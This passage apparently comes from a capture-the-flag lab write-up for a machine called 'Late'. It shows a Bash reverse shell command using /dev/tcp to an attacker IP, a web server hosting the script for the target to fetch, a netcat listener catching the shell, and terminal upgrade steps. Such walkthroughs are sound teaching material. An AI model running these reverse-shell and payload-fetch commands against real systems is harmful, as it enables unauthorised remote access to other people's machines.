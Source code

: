 #### Shell

To get a shell from this, I’ll update the payload with the shorted reverse shell I can think of:

![](https://0xdfimages.gitlab.io/img/late-ssti-rev-10.10.14.6.png)

I’ll create `r` with a basic Bash reverse shell ([explained here](https://www.youtube.com/watch?v=OjkVep2EIlw))

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

And host it with `python3 -m http.server 80`. On submitting, it gets `r` from my webserver:

```
10.10.11.156 - - [25/Jul/2022 17:13:04] "GET /r HTTP/1.1" 200 -

```

And then there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.156 55630
bash: cannot set terminal process group (1237): Inappropriate ioctl for device
bash: no job control in this shell
svc_acc@late:~/app$

```

I’ll upgrade the shell using the standard tricks ([explained here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

```

svc_acc@late:~/app$ script /dev/null -c bash
Script started, file is /dev/null
svc_acc@late:~/app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
svc_acc@late:~/app$

```

And grab `user.txt`:
